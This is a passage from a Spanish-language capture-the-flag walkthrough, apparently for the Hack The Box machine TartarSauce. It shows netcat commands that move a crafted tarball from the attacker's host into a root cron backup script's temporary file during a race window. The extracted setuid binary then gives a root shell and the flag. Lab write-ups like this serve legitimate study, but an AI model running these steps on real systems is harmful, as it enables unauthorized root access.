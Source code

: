 Procedemos a compartir nuestro archivo privesc.tar.gz para que cuando la tarea cron ejecute el scrip backuperer y saque el hash en el directorio /var/tmp/
```bash
┌──(root💀pro)-[/home/…/Escritorio/HTB/TartarSauce/scrips]
└─# nc -vlnp 4444 < privesc.tar.gz        
listening on [any] 4444 ...
connect to [10.10.16.241] from (UNKNOWN) [10.10.10.88] 49796
```
Rapidamente nosotros le hagamos el siguiente paso:
```bash
onuma@TartarSauce:/var/tmp$ ls -la
total 11284
drwxrwxrwt 10 root  root      4096 Aug  2 05:52 .
drwxr-xr-x 14 root  root      4096 Feb  9  2018 ..
"-rw-r--r--  1 onuma onuma 11511673 Aug  2 05:52 .5bff277d80d9f0c3d3df5e456214928b3eb07262     "
drwx------  3 root  root      4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root      4096 May 29  2020 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
```
Procedemos a meter nuestro archivo comprimido y seteado en el hash en un margen de 30seg antes de que se borre
```bash
onuma@TartarSauce:/var/tmp$ nc 10.10.16.241 4444 > .5bff277d80d9f0c3d3df5e456214928b3eb07262
```

```
onuma@TartarSauce:/var/tmp$ ls -la
total 48
drwxrwxrwt 11 root  root  4096 Aug  2 05:53 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2738 Aug  2 05:53 .5bff277d80d9f0c3d3df5e456214928b3eb07262
" drwxr-xr-x  3 root  root  4096 Aug  2 05:53 check " 
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 May 29  2020 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
```
Conseguimos entrar en la seccion del script de python que nos interesaba para poder alcanzar nuestro recurso compartido atraves de la ejeccucion de root del scrip visto
```bash
onuma@TartarSauce:/var/tmp/check$ cd var/www/html
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -la
total 24
drwxr-xr-x 2 root root  4096 Aug  2 04:10 .
drwxr-xr-x 3 root root  4096 Aug  2 05:53 ..
---S--Sr-x 1 root root 15524 Aug  2 04:10 privesc
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./privesc 
root@TartarSauce:/var/tmp/check/var/www/html# whoami
root

root@TartarSauce:/var/tmp/check# cat /root/root.txt     
e79abdab8b8a4b64f857xxxxxxxxxxxx
```

Maquina Rootead =D !! Seguimos Full Hacks
